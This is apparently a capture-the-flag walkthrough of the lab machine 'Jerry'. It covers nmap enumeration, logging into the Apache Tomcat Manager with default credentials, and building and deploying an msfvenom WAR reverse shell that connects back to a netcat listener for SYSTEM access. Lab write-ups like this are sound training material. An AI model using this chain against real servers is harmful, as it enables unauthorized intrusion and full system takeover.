


# Jerry without Metasploit

## Enumeration

### Run nmap scan: 

#### **`nmap -T4 -A -p- 10.10.10.95`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.

#### Dissecting the Results:

* **Port 8080**: This port tends to be the second default choice to port 80, which is a webserver. We see the webserver version is Apache Tomcat/Coyote JSP engine 1.1. We also see Apache Tomcat is version 7.0.88 which we can google more information on if we need to later.
* We see the OS scan believes it to most likely be a Windows machine.

### Navigating the Webserver

Since there isn't much to go off of, we navigate to the webserver to further enumerate. Type `10.10.10.95:8080` in the URL and we land on the following page:

Your first instinct should be to click everything that can lead to a different webpage and see if we can find anywhere we can login, upload files, leaked credentials, etc. Our first few options should be to check out Server Status, Manager App, and Host Manager.

* According to Apache Tomcat's User Guide version 7 for each function
  * Server Status: [View the status of the server](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html#Server_Status).
  * Manager App: ["In many production environments, it is very useful to have the capability to deploy a new web application, or undeploy an existing one, without having to shut down and restart the entire container." followed by "Deploy a new web application from the uploaded contents of a WAR file."](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)
  * Host Manager: ["The Tomcat Host Manager application enables you to create, delete, and otherwise manage virtual hosts within Tomcat."](https://tomcat.apache.org/tomcat-7.0-doc/host-manager-howto.html)

With the list above, the Manager App appears to be an amazing option due to the ability to upload a WAR file, which can contain a reverse shell and ultimately give us access.

We are prompted for login credentials, which we do not currently know so let's click 'Cancel' and we will be brought to the following page:

We are brought to a 401 error page indicating we are not authorized to view Manager. We also see a sample username of **tomcat** and password of **s3cret** which are in fact some default credentials for tomcat. ****Let's try using these to login.

## Exploitation

Success! We were able to login. Now, we scroll to the bottom of the page to where we can see the 'Deploy' section. This is where we will upload a WAR file to gain a shell.

Next, we can google for a msfvenom payloads cheatsheet. I found mine at [https://netsec.ws/?p=331](https://netsec.ws/?p=331). 

We will need to edit this command for it to work. I will be editing mine to `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f war > shell.war` which will create a WAR file named shell.war and it will contain a reverse shell.

Next, we will set up a netcat listener to catch the shell.

`nc -nlvp 7777`

Browse for the WAR file and deploy it. It is now showing in Applications as /shell. 

Once we click /shell, netcat will catch the shell as shown below.

Upon entering `whoami` we see we have system privileges and do not need to escalate from a lower level user. Grab the _**user.txt**_ and _**root.txt**_ flags using the command in the picture below.

